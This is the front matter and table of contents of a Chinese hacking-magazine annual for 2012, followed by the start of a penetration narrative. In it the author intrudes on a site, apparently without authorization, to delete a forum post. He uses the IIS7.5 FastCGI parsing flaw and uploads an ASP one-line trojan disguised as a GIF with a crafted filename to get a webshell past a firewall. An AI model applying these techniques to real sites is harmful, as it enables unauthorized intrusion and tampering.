# 黑客防线2012合订本第一部分

---

# 黑客防线系列

## 黑客防线 2012合订本

《黑客防线》编辑部·编

- 剖析黑客攻防技术焦点
- 展示技术的创新与突破
- 透视黑客攻防发展趋势
- 全面收录流行黑客技术

## 黑客防线

### 2012合订本

《黑客防线》编辑部 编

## 内容简介

本书为《黑客防线》杂志 2012 年所刊登文章的合集，内容涉及当前系统与软件最新漏洞的攻击原理与防护、脚本攻防、渗透与提权、溢出研究，以及网络安全软件的编写、网管工具的使用等。本书涉猎范围广，内容涵盖目前网络安全领域的各个方面，其中不乏代表着国内网络安全的顶级技术研究。

本书适合网络安全从业者、网络管理员、软件测试人员，以及在校大学生等诸多网络安全爱好者阅读。

未经许可，不得以任何方式复制或抄袭本书之部分或全部内容。

版权所有，侵权必究。

图书在版编目（CIP）数据

黑客防线：2012 合订本 / 《黑客防线》编辑部编.—北京：电子工业出版社，2013.6

（安全技术大系）

ISBN 978-7-121-20290-2

I. ①黑…  II. ①黑…  III. ①计算机网络—安全技术  IV. ①TP393.08

中国版本图书馆 CIP 数据核字（2013）第 089972 号

- 责任编辑：李利健
- 特约编辑：赵树刚
- 印刷：北京京科印刷有限公司
- 装订：北京京科印刷有限公司
- 出版发行：电子工业出版社
- 北京市海淀区万寿路 173 信箱　邮编 100036
- 开本：850×1168　1/16　印张：28.5　字数：1185.6 千字
- 印次：2013 年 6 月第 1 次印刷
- 印数：3500 册　定价：69.00 元

凡所购买电子工业出版社图书有缺损问题，请向购买书店调换。若书店售缺，请与本社发行部联系，联系及邮购电话：（010）88254888。

质量投诉请发邮件至 zlts@phei.com.cn，盗版侵权举报请发邮件至 dbqq@phei.com.cn。

服务热线：（010）88258888。

## 关于《黑客防线》

《黑客防线》是一本涉及网络信息安全的纯技术月刊，创刊于 2001 年，至今已经历时 12 年。12 年来，坚持在攻与防的对立统一中寻求技术突破的理念，积极倡导技术创新和突破，成为国内网络信息安全技术人员和相关专业在校学生不可缺少的技术月刊。

随着时代的发展，为了使读者更加及时、便捷地阅读这本技术月刊，从 2010 年 7 月开始，月刊采用电子版网络传播形式发行，不再出版纸张版的月刊。但是由于广大读者在得到快捷电子版的同时，还是希望作为技术资料收藏纸张版，为了满足这一要求，我们每年将会出版这样一本合订本。合订本将全面收录全年的文章，偶尔也会删除极少部分技术含量不足的文章，总体还是体现技术创新和突破。

## 关于《黑客防线》合订本的出版周期

我们一般会在每年的 4 月出版上一年的合订本。由于编印发涉及诸多环节，希望读者能够容忍这个延时。如果想及时阅读，还是建议到黑客防线官网订阅电子版月刊。

## 关于文章中涉及代码的下载

由于强调纯粹技术性的研究，很多文章涉及的技术阐述需要代码实现，本来应该收录在光盘中随书赠送，但是，光盘审读一般依赖杀毒软件扫描结果，对于本技术领域很多代码都会误报，澄清需要拖延出版周期。所以，我们只能在黑客防线官网提供相关代码的下载，由此带来的不便，希望得到读者的理解和谅解。

## 关于购买合订本的途径

电子工业出版社所有的销售终端都是极好的购买途径，包括但不限于各大新华书店、科技书店、计算机书店及网络书城。

## 关于《黑客防线》的内容定位

《黑客防线》一直倡导技术创新和突破。这个倡导具体到与网络信息安全相关，旨在强调底层编码技术研究、底层协议、系统内核、程序缺陷等方面技术对抗，反对应用级别的攻击实验性质的描述文章，真正实现底层技术层面的攻与防的对立统一，这是我们 12 年来一直倡导的，也是今后要坚持的方向。所以，欢迎后来者居上的新人积极投稿，勇于尝试技术研究和创新，相信在这个技术领域只有创新、没有权威，投稿邮箱：du_xing_zhe@yahoo.com.cn。

## 致谢

12 年的黑客防线技术探索之路其实也是一条不平坦的道路。由于众所周知的原因，我们一直寻求在法律允许的范围内研究这个边缘性交叉性学科所涉及的纯粹技术，其目的就是为本土网络信息安全建立一个技术家园，培养出稀缺门类的技术专才。在此过程中，始终得到了各大安全公司和相关行业的认可，特别是有的公司在录用员工时客观参考在《黑客防线》上发表的文章，还有的公司在员工技术考核中把在本刊发表的文章也列入指标；有些高校相关专业给予我们作者以奖学金或者学分奖励，这种认可，是我们首先要感谢的。还要感谢 12 年来坚持技术研究并且投稿支持我们分享技术成果的作者们，其实这个技术团队已经成为相关行业的技术中坚力量。同时，更要感谢坚持阅读分享并且参与技术研究的广大读者，以及很多机构的图书馆、资料室，读者的需要使我们感到了工作的价值。

《黑客防线》编辑部 binsun20000@gmail.com

# 《黑客防线》2012 合订本目录

## 木马黑客

- 一次艰难的渗透纪实 ................................ 1

## 漏洞攻防

- 解密百度阅读器远程执行任意文件漏洞 ................................ 14
- 危机四伏的 iWeb Mall 多用户商城系统 ................................ 16
- DeDeCMS v5.7 最新漏洞分析 ................................ 18
- 如履薄冰的新为在线 ODay 漏洞分析 ................................ 29
- 解密 56ican 远程执行任意程序漏洞 ................................ 43
- 计算机网络安全之 DLL 劫持漏洞详解 ................................ 45
- 潜伏在办公室里的攻击 ................................ 48
- 优看 PDF 在线阅读控件远程代码执行漏洞 ................................ 50
- Web Office 控件漏洞大曝光 ................................ 53
- 巧妙破解 YesLab 联网认证视频 ................................ 56
- 基于组件对象模型（COM）的劫持攻击技术 ................................ 58
- 手机支付宝密码存储机制分析 ................................ 62
- UUSee2012 漏洞六连发 ................................ 71
- IE 浏览器数组越界漏洞利用方法 ................................ 75
- NOTES 邮件系统漏洞发掘 ................................ 77
- RPC 漏洞挖掘 ................................ 79
- Struts2 远程执行漏洞分析之 CVE-2012-0392 篇 ................................ 83
- HTML5 十大威胁：隐秘攻击与漏洞潜伏 ................................ 86
- A-PDF All to MP3 基于 SEH 的漏洞利用 ................................ 91
- 危机重重的 Office Anywhere ................................ 96
- 惊爆 UUSee 网络电视 2012 远程溢出漏洞 ................................ 98
- 关于 DarkCometRAT531 的逆向分析 ................................ 100
- AXMAN 工具原理解析 ................................ 103
- 利用 pvefindaddr 编写飞秋漏洞利用程序 ................................ 107
- 挖掘 AcReport 报表远程植入命令漏洞 ................................ 110

## Android 远程监控技术

- 击溃 360 手机卫士的三大防护 ................................ 112
- Android 下访问 Web 服务器上传文件 …… 125
- Android 系统 shellcode 编写 …… 127
- Android 应用程序的补丁方法 …… 131
- 安卓 WiFi 密码破解工具编写初探 …… 141
- Android 环境窃听器的实现 …… 151
- Android 蓝牙安全通信 …… 153
- Android 手机一键 Root 原理分析 …… 160
- 伸向 Android 的核心解析 NDK …… 165
- Android Gamex 木马分析报告 …… 169
- Android 平台下 ARP 欺骗的分析与实现 …… 174
- Android 木马分析与编写 …… 180
- Android API Hook 之 LD_PRELOAD …… 182
- Android 下 APK 及 DEX 文件解析 …… 185
- 移植 Linux 源码到 Android 系统环境搭建 …… 187

## 逆向与免杀

- 自己动手打造 APK 安装器 …… 190
- 搜索 Kernel32.dll: TEB 与 PEB 之旅 …… 197
- Windows 内核调试命令利器分析 …… 199

## 渗透与提权

- Burp Suite——SQLINJECTION 渗透 …… 203
- 老树开花：一个 js 函数引发的命案 …… 210
- Linux 下的 MySQL 提权 …… 212
- PHPDISK header bypass & getShell …… 215
- Linux 环境下的防火墙绕过技巧 …… 217
- 浅谈 Linux 下 ARP 入侵 …… 220
- MetInfo 全局变量覆盖另类突破防注入 …… 224
- XSS 黑盒入侵实例 …… 227
- 暴力破解一个 ASP 加密算法 …… 228
- 另类思路检测 webshell …… 230
- 由 Tencent://Message 协议联想到的“协议劫持” …… 233

## 论文精选

- Stealth Rootkits 攻击技术发展趋势分析 …… 236
- 基于 Linux 内核 2.6.x/3.0.x 可加载内核模块的注射技术 …… 240

## 网络安全顾问

- 来自移动终端的新一代 …… 245
- 信息威胁技术探讨 …… 245
- Hardware Hack 之 NFC 系列——门禁卡攻击 …… 248
- 电子渠道身份认证系统安全性分析 …… 251
- 摩托罗拉 XOOM 提权和安装 backtrack5 …… 254
- 企业内网 ISA 安全认证环境搭建详解 …… 258
- 浅谈 Windows 和 Linux 下的嗅探攻击及防范 …… 267
- 揭示主流内网管控系统的脆弱性 …… 273
- Linux LKM 注入攻击 …… 275
- 编程实现 Linux 环境的二进制文件反调试 …… 281

## 编程解析（下）

- 编程实现突破 Win64 内核保护机制 …… 285
- Linux 下内核漏洞利用的几种方式 …… 290
- 在 Win64 上实现 SSDT HOOK …… 294
- 初步探索 PE32+ 格式文件 …… 298
- 深入跟踪 Hello World 执行 …… 303
- PHP Hashtable collisions 简要算法分析 …… 310
- 远程同步 CMD SHELL 程序的实现 …… 312
- 实现 Win64 上的内核级 Inline Hook 引擎 …… 316
- 恢复在 Win64 上的 SSDT 钩子 …… 318
- Windows 7 注册表之 SAM 文件取证分析 …… 321
- 安博士 V3 Lite 的一些问题 …… 324
- 编程实现使安博士无法访问被保护文件 …… 328
- Returnil 影子系统 1.2 的逆向分析 …… 331
- 对卡巴斯基安全键盘的研究 …… 337
- 详解 Win64 上的 Shadow SSDT …… 339
- Linux ELF 运行时内存详解 …… 343
- 细解使用 Native API 编程 …… 347
- 利用 Glibc Hook 打造 Linux 程序防火墙 …… 352
- Win64 上使用标准方法监控进程创建 …… 354
- Win64 下使用标准方法监视文件访问 …… 356
- 浅议 MDL …… 359
- 小议 csrss 与 smss …… 363
- 新思路注入 DLL 并绕过杀毒软件 …… 370
- 利用 Detours 实现 API Hook …… 374
- 在 Win64 上枚举消息钩子 …… 377
- 木马核心功能研究 …… 380
- Pass TrojanCut 突破研究 …… 385
- Windows 异常处理机制 …… 387
- 使用 Libnet 实现 ARP 数据包发送 …… 391
- Shellcode In X64 Find kernel32.dll …… 394
- Shellcode In X64-2 Search Function using hash …… 397
- Windows 编程之对象与句柄 …… 402
- 用 pcap 编写网络嗅探器 …… 407
- TLS 反调试的前世今生 …… 411

# KXK 综合技术目录

## 破解导航

- Android 应用程序破解入门 …… 416
- 手写指令对抗 IDA …… 422
- 一个平板软键盘的算法分析与注册机编写 …… 428
- AvKiller 病毒分析 …… 432
- 分析一个 DLL 劫持下载者 …… 439

前置知识：PHP ASP 汇编

关键词：入侵 渗透 破解


# 一次艰难的渗透纪实

图/文 kyo327

## 前言

随着互联网的迅速发展，越来越多的应用都转向 B/S 结构，因为它是跨平台的、易操作的、方便的、迅速的，这样不论用户使用什么样的操作系统，仅仅需要安装一个浏览器就能享受在线购物、网上支付、看电影、写博客等各种各样的便捷服务，特别是 Web2.0 时代的到来更增添了互联网的活力。但是这样也就会导致出现越来越多的 Web 安全问题，比如 SQL 注入、XSS、上传漏洞、弱口令、目录遍历等。

虽然早在数十年前就已发现这些漏洞产生的根本原因，可它们却始终没有退出历史舞台，依然是 Web 应用程序主要的安全问题。当然很多企业也开始越来越重视安全，但是仅仅依靠买网络安全产品、买防火墙等是不能完全解决问题的。现在的企业安全最大问题就是不重视网络安全人才，导致搞安全的薪水不如挖煤窑的，或者纯粹依靠安全产品代替网络安全人才。

软件产品毕竟也是人写的，并且具有时效性，出了 0Day 后，死的产品能立即做出安全措施吗？动辄就看见招聘做内核驱动的程序员年薪 20 万以上，这种状况让搞安全的情何以堪，并且搞安全也需要学习底层编程、C 语言、Perl、Python、PHP、ASP、.NET、Java、C++，调试漏洞、配置各种各样的 Web 环境、熟练掌握 od、ida、softice、windbg、软件破解、社工等，只要是跟互联网有一点关系都是必修之课，最关键的是，还要时刻学习新东西，要跟得上互联网的发展，否则就会被淘汰。

我先感慨一下，在做网络安全这些年感觉一直在漂，从 2005 年刚到北京的远东到 2008 年的大连，再到 2009 年的盛大，没有一个地方能让人感到是在踏实地做安全，对网络安全人才也都不重视。从 QQ 群的好友处得知，有很多技术水平很不错的朋友都闲置在家，为什么？我感觉国内的大环境都是这样，所以出现了 2011 年年底的各大网站密码泄露事件。我认为，泄露的那些也只是九牛一毛。在这个不够重视网络安全人才的时代，也许这个事件算是给那些高傲的、高薪的程序员上的一堂课吧。

言归正传。因为快要当爸爸了，我终于离开了北京，在家闲着这段时间受一朋友之托要在某一个网站帮忙删一个帖子，于是便开始了这次漫长的渗透之旅。

## 初期的探索

在拿到目标 www.111.com 后，前期的侦查工作一定是要做充分的。我喜欢先从网站程序入手，这样如果找到突破口就可以迅速拿下。

通过初期对网站文件暴力猜解，扫描到 robots.txt 文件，有以下目录，如图 1 所示。

```
Disallow: /install/
Disallow: /data/
Disallow: /temp/
Disallow: /tpl/
Disallow: /uc_client/
Disallow: /id/
Disallow: /lang/
Disallow: /mod/
Disallow: /adm/
Disallow: /api/
Disallow: /inc/
Disallow: /tool/
Disallow: config.php
Disallow: admin.php
Disallow: 3gadm.php
Disallow: seccode.php
Disallow: spider.php
Disallow: ver.php
```

图 1

再通过对这些文件的访问，从 3gadm.php 文件的标题栏得知该网站采用的是 diy-page8.3 的 cms，自然可以先用搜索引擎搜索该 cms 暴露的已知漏洞。我搜到的大概有 3 个版本的结果：一个是子仪的盲注 exp，还有两个是来自 t00ls 的。由于该网站服务器安装有 web 防火墙，导致同一个 IP 不能多次连续地提交 get 或 post 请求，否则就被认为是非法的。这样盲注那个 exp 也就一直没有成功，而我使用 t00ls 小蟑螂那个 exp 时，在本机自己搭建环境的最新版本是成功的，但是目标仍然失败，我考虑也许是目标版本较低的原因。

由于后台文件 admin.php 被改名，同时也在进行网站后台文件的暴力猜解，不过也许我的字典文件不够大，也不够好，结果很令人失望，并且该网站做了禁止普通用户注册、禁止普通用户登录的安全措施，这样连传图片的权利也被封杀了。

再看它的论坛，毕竟要删的帖子是在论坛上的，但它使用的是最新版的 discuz! x2，因为我测试了 2011 年 7 月那个漏洞不好使。

到这里，我对该目标的网站程序方面大概有了一些了解，但有用的信息不是很多。接着我用 nmap 扫描了 Web 服务器的端口情况，只开了 80 端口，也许其他端口被防火墙 K 掉了吧。通过验证，访问一个不存在的目录，服务器返回如图 2 所示。



从图 2 看出，貌似 IIS7.0 或 IIS7.5，再用 iiswrite.exe 对网站发送一个 head 包，返回 Server: Microsoft-IIS/7.5，这样大概能确定该网站服务器操作系统应该是 Windows 2008。

通过上面的分析，没有找到什么突破口，接下来大家都能想到，可以扫描一下它的 Web 服务器上都有哪些网站，从该服务器上的其他网站入手是大家一贯的做法，我也就不多说了。再次遇到 CDN，无法简单地判断网站的真实 IP。

关于 CDN，我在这里用简单的几句话介绍一下：用户在自己的浏览器中输入要访问的网站的域名，网站主 DNS 选择比较近的 CDN 服务商节点，并把请求的内容缓存到 CDN 节点服务器，再把 CDN 节点服务器 IP 返回给用户，最后用户再向给定的 CDN 节点请求网站内容。

我测试使用不同地区的 VPN 去 ping 网站域名，发现 IP 都不一样，后来通过 Google 搜索其网站的相关帖子，发现有另外一个域名 www.222.com 显示相同的内容。再次用此域名进行旁注域名查询，总算有了真实结果，如图 3 所示。



但令人失望的是，这几个域名最终全都指向了主网站和论坛。

### 看到一点希望

由于 www.222.com 直接指向论坛，而 www.111.com 指向 cms，可以判断两个网站应该处于不同的虚拟目录下。于是我用自己写的扫描器对 www.222.com 进行了网站文件暴力猜解，如图 4 所示。



从图 4 中看到，总算有个信息泄露的问题了。打开 phpinfo.php，结果如图 5 所示。



从图5中获得到目标操作系统是 Windows 2008，PHP 运行方式为 FASTCGI，PHP 版本为 5.2.17，还有网站物理路径等。让我眼前一亮的是 IIS7.5+FASTCGI。在默认情况下，IIS 处理请求的时候可能导致像 nginx 安全漏洞一样的问题，任何用户都可以远程将任何类型的文件以 PHP 的方式去解析。

我马上找到一个该网站某个图片链接地址进行类似的请求：http://www.222.com/images/aaa.gif/kyo.php，没有返回 404，并且返回的 HTTP 头状态码是 200。这时我基本可以肯定该漏洞的存在。我记得给一位好友看过一眼，他说这个站死定了。我也深信这一点，但我没想到后面的过程竟如此艰难。

随后我带着喜悦的心情，迅速地在该论坛注册了账户，并急切地上传那个带着一句话 PHP 木马的美女图片，但结果仍然令人沮丧：论坛将所有的附件传到另外一个文件服务器上，而那个文件服务器是 Windows 2003，没有类似的 Bug，并且和目标主机不在一个 C 段。可这个漏洞却很诱人，我还考虑到论坛显示帖子是 HTML 文件类型，如果能在显示帖子 HTML 里写入 `<?php phpinfo();?>` 倒也是可以利用的，只是 `<>` 总是被过滤为 `&lt; &gt;`，主站的 CMS 又禁止登录，CMS 后台文件也无法找到，看来只能再换别的思路了。

## 从二级域名入手

每个做网络安全的都应该了解，在网络上每个人享受各种服务：上论坛、听音乐、网上支付、购物等，最重要的就是自己的密码，而账号大多数都是公开的。只要我们拥有目标的常用密码，就可以尝试他的其他网站的登录验证。因此，我开始了从二级域名入手的打算，拿下后至少可以得到他的常用密码之一。

通过他本网站的链接和二级域名暴力破解查询工具，再加上自己的分析，我得到了 target 比较主要的一个二级域名：a.111.com。仍然是一个比较成熟的、没有任何已知漏洞的 CMS 博客程序。值得庆幸的是，这个二级域名所在的服务器倒有十几个其他的网站，应该是虚拟主机，操作系统是 Windows 2003，同时支持 PHP 和 ASP。

我首先瞄上的一个网站是：www.aaa.com，很轻松地扫出其后台管理文件为：http://www.aaa.com/admin/admin_index.php。直接在浏览器上浏览 URL，发现其没有做严密的验证，后台一部分功能是可以使用的，如图6所示。



图6

并且后台使用了 FCKeditor，是最新版本，测试了这个编辑器的漏洞集合后无果，只能把希望寄托在图6的上传图片上，看看是否有问题。这次还算顺利，我在 Vmware 的 Windows XP 系统里用 WSockExpert.exe 抓了一下上传的包，在一句话 ASP 木马里添加了 gif89a 头，再将包的这里改为：`Content-Disposition: form-data; name="article_img"; filename="C:\aa.asp.gif"`，用 nc 提交后即得到名为 `120107005538_53.asp` 的上传文件，也就拿到其 webshell 了，如图7所示。



图7

其实这里上传的时候，Web 防火墙也拦了好几次，几乎杀了我 95% 的小马，最后只能请出独门暗器才躲过防火墙。后来才知道这虚拟主机使用的组合是“星外+护卫神·入侵防护专家”。

拿到 www.aaa.com 的 webshell 后，自然是想跨目录到 a.111.com。而最新的“星外+护卫神”的确很有效，删除了 wscript.shell、shellapplication 等扩展，还不支持 aspx，不能运行任何命令。

## 调试 PHP 漏洞

我用 phpinfo 得知 www.aaa.com 的 Web 服务器的 PHP 版本是 5.2.9-2。版本不高，我印象里 php 5.2.13 以下的版本出过好几个漏洞，其中“PHP hash_update_file() Already Freed Resource Access Vulnerability”是比较著名的。于是我放下该网站的 webshell，找到这个漏洞公告和 POC，准备测试一下这个漏洞，用它去执行命令，进而提升权限。

公告地址为：

http://php-security.org/2010/05/01/mops-2010-001-php-hash_update_file-already-freed-resource-access-vulnerability/index.html

我在 vmware_winxp 的 apache+php 环境里用 WinDbg 附加进程 httpd.exe，然后在浏览器中打开这个漏洞的 POC，发生异常，如图8所示。

